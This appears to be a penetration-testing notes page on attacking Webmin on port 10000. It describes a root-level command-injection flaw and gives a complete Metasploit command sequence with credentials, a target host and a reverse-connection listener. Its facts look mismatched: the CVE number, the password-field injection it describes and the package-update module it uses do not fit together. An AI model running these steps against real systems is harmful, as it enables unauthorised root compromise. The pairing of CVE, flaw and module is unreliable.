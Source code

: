 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Webmin (10000)

## 101

Webmin is a **web-based system administration interface** for Unix-like systems, typically running on port `10000` by default. It allows administrators to manage various aspects of a system—such as users, services, packages, and configuration files—entirely through a browser, without needing to use the terminal or SSH.

## Attacks

### RCE

[CVE-2019-9624](https://nvd.nist.gov/vuln/detail/cve-2019-9624) is a RCE in Webmin versions prior to `1.910`. It specifically affects installations where the `old password` option is enabled for password changes. In vulnerable versions, if a user submits a password change request, Webmin checks the old password—but only if the `old password` option is enabled in the configuration. Due to improper input handling, attackers could craft a request to inject OS commands through the `old` password field. These commands would then be executed with the privileges of the Webmin process (often `root`).

MSF's [`webmin_packageup_rce`](https://www.rapid7.com/db/modules/exploit/linux/http/webmin_packageup_rce/) module can be used:

{% code overflow="wrap" %}
```bash
msf6 > use exploit/linux/http/webmin_packageup_rce
msf6 exploit(linux/http/webmin_packageup_rce) > set password Password6543
msf6 exploit(linux/http/webmin_packageup_rce) > set username admin
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 172.16.1.1
msf6 exploit(linux/http/webmin_packageup_rce) > set rport 10000
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
msf6 exploit(linux/http/webmin_packageup_rce) > run
```
{% endcode %}
